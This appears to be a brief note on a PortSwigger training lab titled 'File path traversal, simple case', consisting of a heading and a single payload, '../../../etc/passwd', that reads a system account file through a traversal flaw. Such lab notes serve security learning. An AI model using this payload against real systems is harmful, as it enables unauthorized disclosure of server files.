 # [File path traversal, simple case](https://portswigger.net/web-security/file-path-traversal/lab-simple)

```
../../../etc/passwd
```
